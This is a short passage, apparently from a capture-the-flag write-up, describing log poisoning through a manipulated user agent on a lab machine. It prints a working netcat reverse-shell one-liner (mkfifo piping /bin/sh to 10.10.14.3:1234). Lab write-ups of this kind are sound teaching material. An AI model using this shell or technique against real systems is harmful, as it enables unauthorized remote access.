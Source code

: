 As we can see, the user agent is in the access file, we can manipulate that. 
<img src="/assets/poison/poison6.png" alt="drawing" width="600"/>

I used this one-liner shell:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 1234 >/tmp/f
```
<img src="/assets/poison/poison7.png" alt="drawing" width="600"/>
